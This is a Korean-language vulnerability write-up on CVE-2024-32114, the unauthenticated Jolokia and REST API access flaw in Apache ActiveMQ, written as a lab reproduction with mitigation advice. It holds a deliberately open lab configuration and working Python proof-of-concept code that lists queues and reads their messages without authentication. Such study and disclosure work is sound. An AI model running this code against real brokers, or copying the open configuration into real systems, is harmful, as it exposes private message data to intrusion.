


# CVE-2024-32114
{: .no_toc }

Apache ActiveMQ 인증 우회 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
API 웹 컨텍스트(Jolokia JMX REST API 및 Message REST API)가 인증 없이 접근 가능하도록 되어 있어, 원격 공격자가 권한을 상승시키거나 민감한 정보를 탈취할 수 있는 취약점

{: .note-title }
> **Jolokia JMX REST API**는 JMX (Java Management Extensions) MBeans를 HTTP/HTTPS를 통해 RESTful 방식으로 외부에 노출합니다. 이를 통해 외부 클라이언트는 JMX를 통해 제공되는 다양한 관리 기능과 모니터링 데이터를 접근하고 사용할 수 있게 됩니다.<br>

> **Message REST API**는 메세지 브로커인 ActiveMQ와 상호작용하기 위한 RESTful 웹 서비스 인터페이스입니다. 이를 통해 클라이언트는 HTTP 요청을 사용하여 메시지 브로커와 통신할 수 있습니다. Message REST API는 메시지의 생성, 소비, 조회 등의 작업을 수행할 수 있는 기능을 제공합니다.

## 1.2 취약 대상
Apache ActiveMQ 버전 6.1.2 이전

## 1.3 공격 원리
- Apache ActiveMQ 6.1.1 버전의 기본 설정에서 인증 없는 API 접근
- 공격자는 인증이 필요하지 않은 API 엔드포인트를 식별한 후, 악의적인 페이로드를 생성하여 시스템에 전송
- 취약한 API를 통해 시스템 내에서 권한을 상승시키거나 민감한 정보를 탈취


---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.56.1)
- Attacker: Windows10 (IP: 172.23.66.206) <br>

ActiveMQ v6.1.1 설치
```bash
## Java 설치, 
sudo apt install openjdk-17-jdk
java -version

## ActiveMQ v6.1.1 설치
cd /usr/local/src
wget https://archive.apache.org/dist/activemq/6.1.1/apache-activemq-6.1.1-bin.tar.gz
tar -xvf  apache-activemq-6.1.1-bin.tar.gz
mkdir /opt/activemq
sudo mv /usr/local/src/apache-activemq-6.1.1/* /opt/activemq

## ActiveMQ 사용 계정 생성 및 /opt 접근을 위한 권한 추가
sudo addgroup --quiet --system activemq
sudo adduser --quiet --system --ingroup activemq --no-create-home --disabled-password activemq
sudo chown -R activemq:activemq /opt/activemq

## 외부 접속을 위한 jetty.xml 수정 (/opt/activemq/conf/jetty.xml)
vi /opt/activemq/conf/jetty.xml 

    <bean id="jettyPort" class="org.apache.activemq.web.WebConsolePort" init-method="start">
        <!-- 127.0.0.1 에서 0.0.0.0 으로 변경 -->
        <property name="host" value="0.0.0.0"/>
        <property name="port" value="8161"/>
    </bean>

## Jolokia 라이브러리 추가
cd /opt/activemq/lib
wget https://repo1.maven.org/maven2/org/jolokia/jolokia-core/1.6.2/jolokia-core-1.6.2.jar

## Jolokia Method 설정
vi /opt/activemq/conf/jolokia-access.xml

<?xml version="1.0" encoding="UTF-8"?>
<restrict>
    <policy>
        <methods>
            <method>LIST</method>
            <method>READ</method>
            <method>EXEC</method>
            <method>WRITE</method>
        </methods>
        <hosts>
            <host>0.0.0.0/0</host>
        </hosts>
    </policy>
    <mbeans>
        <!-- Allow all operations for the broker itself -->
        <mbean>
            <name>org.apache.activemq:*</name>
            <attribute>*</attribute>
            <operation>*</operation>
        </mbean>
        <!-- Allow all operations for Jolokia Config -->
        <mbean>
            <name>jolokia:type=Config</name>
            <operation>*</operation>
        </mbean>
    </mbeans>
</restrict>

## ActiveMQ Service 설정
sudo vi /etc/systemd/system/activemq.service

## 추가
[Unit]
Description=Apache ActiveMQ
After=network.target

[Service]
Type=forking
User=activemq
Group=activemq
ExecStart=/opt/activemq/bin/activemq start
ExecStop=/opt/activemq/bin/activemq stop

[Install]
WantedBy=multi-user.target

## Daemon 재시작
sudo systemctl daemon-reload
sudo systemctl start activemq
sudo systemctl enable activemq
sudo systemctl status activemq

## 접속 확인
http://192.168.56.1:8161/admin
```

<br>구현 된 홈페이지 (192.168.56.1:8161/admin)


---

## 1.5 공격 재현
Python Version : 3.12.3 <br>
Module : requests, json <br>

### import 추가 
{: .no_toc }

```py
import requests
import json

# url
url = 'http://192.168.56.1:8161'
jolokia_url = f'{url}/api/jolokia'

```

### Activemq Api를 이용하여 Message 전송
{: .no_toc }

```py
def send_message(url):
    try:
        destination = 'cve-2024-32114-Test'
        headers = {'Content-Type': 'application/json'}
        data = {
            'type': 'queue',
            'destinationName': destination,
            'body': [
                'cve-2024-32114',
                'POC Test',
                'jolokia api',
                'send message',
                'shw0331'
            ]
        }
        response = requests.post(f"{url}/api/message?type=queue&destination={destination}", json=data, headers=headers)
        print(f'Message sent successfully to {destination}')
    except Exception as e:
        print(f'Error while sending message : ', e)
```



### ActiveMQ의 인증 없이 모든 Queue 정보 요청
{: .no_toc }

```py
def get_all_queues(url):
    try:
        response = requests.get(f'{url}/api/jolokia/read/org.apache.activemq:type=Broker,brokerName=localhost,destinationType=Queue,destinationName=*')
        data = response.json()
        print("Get all queues : ", data)
        queues = [value['Name'] for key, value in data['value'].items()]
        return queues

    except Exception as e:
        print("Error while getting queues: ", e)
        return []
```


### 가져온 Queue 정보를 바탕으로 Message 수집
{: .no_toc }

```py
def get_queue_message(jolokia_url, queue_name):
    try:
        response = requests.get(f'{jolokia_url}/exec/org.apache.activemq:type=Broker,brokerName=localhost,destinationType=Queue,destinationName={queue_name}/browse()')
        data = response.json()
        messages = data['value']
        return messages
    
    except Exception as e:
        print(f'Error while getting message from queue :', e)
        return[]

def get_data(jolokia_url, queues):
    if queues:
        for queue_name in queues:
            print(f'Queue: {queue_name}')
            messages = get_queue_message(jolokia_url, queue_name)
            if messages:
                for message in messages:
                    print(f"Message: {message}")
            else:
                print(f'No messages found in queue "{queue_name}"')     
    else:
        print('No queues found')
```


---

## 1.6 대응 방안
- Activemq 버전 6.1.2 이상으로 업데이트
- conf/jetty.xml 파일을 수정하여 인증 요구 설정
```bash
<bean id="securityConstraintMapping" class="org.eclipse.jetty.security.ConstraintMapping">
    <property name="constraint" ref="securityConstraint" />
    <property name="pathSpec" value="/" />
</bean>
```

---

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-32114
[Apache]: https://activemq.apache.org/security-advisories.data/CVE-2024-32114-announcement.txt

